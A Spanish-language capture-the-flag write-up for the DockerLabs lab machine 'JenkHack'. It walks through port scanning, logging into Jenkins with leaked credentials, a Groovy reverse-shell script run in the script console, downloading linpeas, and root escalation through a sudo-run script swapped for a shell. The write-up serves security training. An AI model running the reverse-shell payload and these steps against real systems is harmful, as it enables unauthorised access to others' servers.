

# 🖥️ Writeup - JenkHack 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip jenkhack.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh jenkhack.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p80,443,8080 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-01 15:42 CET
Nmap scan report for 172.17.0.2
Host is up (0.000020s latency).

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Hacker Nexus - jenkhack.hl
443/tcp  open  ssl/http Jetty 10.0.13
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Not valid before: 2024-09-01T12:00:45
|_Not valid after:  2025-09-01T12:00:45
|_http-server-header: Jetty(10.0.13)
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| tls-alpn: 
|_  http/1.1
| http-robots.txt: 1 disallowed entry 
|_/
8080/tcp open  http     Jetty 10.0.13
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.13)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.20 seconds
```

El escaneo de puertos revela que los puertos `80`, `443` y `8080` son accesibles.

Accedemos al puerto `80` y encontramos una página web de herramientas de ciberseguridad. En el código fuente de la misma encontramos algo que nos llama la atención:

```

                   
                    
```

`jenkins-admin` : `cassandra`. Parecen ser las credenciales de un panel `Jenkins`.

Accedemos al puerto `8080` y nos encontramos con el panel de inicio de sesión de `Jenkins`, por lo que vamos a probar a autenticarnos con dichas credenciales.



Hemos obtenido acceso al panel de administración de `Jenkins`.

Vamos a intentar obtener una `reverse shell` a través de `Jenkins`. Para ello vamos a la `consola` de scripts en la ruta `/script`, donde podemos ejecutar código `Groovy` arbitrario.

Investigando por internet encontramos el siguiente `script` para obtener una `reverse shell`.

```
Thread.start {
String host="TU IP";
int port=TU PUERTO;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

Antes de ejecutar el script, ponemos un `listener` en nuestra máquina atacante.

```bash
sudo nc -nlvp 4444
```

Ahora sí, ejecutamos el script.

Info:
```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 51044
whoami
jenkins
```

Hemos recibido la `reverse shell` como el usuario `jenkins`.

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Vamos a transferirnos el script `linpeas.sh` desde la máquina atacante a la víctima de la siguiente manera:
Levantamos un servidor `HTTP` en el directorio donde tenemos `linpeas.sh`.

```bash
python3 -m http.server 80
```

Ahora, desde la máquina víctima, lo descargamos en el directorio `/tmp`.

```bash
wget http://172.17.0.1/linpeas.sh
```

Info:
```
--2025-11-01 16:19:15--  http://172.17.0.1/linpeas.sh
Connecting to 172.17.0.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 954437 (932K) [application/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 932.07K  --.-KB/s    in 0.003s  

2025-11-01 16:19:15 (276 MB/s) - ‘linpeas.sh’ saved [954437/954437]
```

Le damos permisos de ejecución y lo ejecutamos.

```bash
chmod +x linpeas.sh
./linpeas.sh
```

Info:
```
╔══════════╣ Searching root files in home dirs (limit 30)
/home/
/root/
/var/www
/var/www/jenkhack
/var/www/jenkhack/note.txt
/var/www/jenkins_2.401.2_all.deb
/var/www/html
/var/www/html/index.html
/var/www/html/scripts.js
/var/www/html/styles.css
```

Encontramos un archivo `note.txt` dentro del directorio `/var/www/jenkhack/` que parece interesante. Leemos su contenido.

```
jenkhack:C1V9uBl8!'Ci*`uDfP
```

Estas probablemente sean las credenciales que necesitamos para pivotar al usuario `jenkhack`, pero la contraseña parece cifrada.

Descubrimos que está cifrada en `Base85`, así que la decodificamos.

```
C1V9uBl8!'Ci*`uDfP : jenkinselmejor
```

Ya tenemos las credenciales del usuario `jenkhack` : `jenkinselmejor`. Nos autenticamos con éxito.

```bash
su jenkhack
```

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for jenkhack on a6526368dbcf:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jenkhack may run the following commands on a6526368dbcf:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
```

Vamos a ejecutar el comando que el usuario `jenkhack` puede ejecutar con privilegios de `root`.

```bash
sudo /usr/local/bin/bash
```

Info:
```
Welcome to the bash application!
Running command...
This is the bash script running.
```

Observamos que se está ejecutando un archivo en bash. Más tarde nos damos cuenta de que dicho archivo se encuentra en el directorio `/opt`.

Vamos a borrarlo y a crear uno nuevo con el mismo nombre.

```bash
rm bash.sh
nano bash.sh
```

```
#!/bin/bash
exec /bin/bash
```

Le damos permisos y lo ejecutamos.

```bash
chmod +x bash.sh
sudo /usr/local/bin/bash
```

Info:
```
Welcome to the bash application!
Running command...
root@a6526368dbcf:/opt# whoami
root
root@a6526368dbcf:/opt#
```

Ya somos root!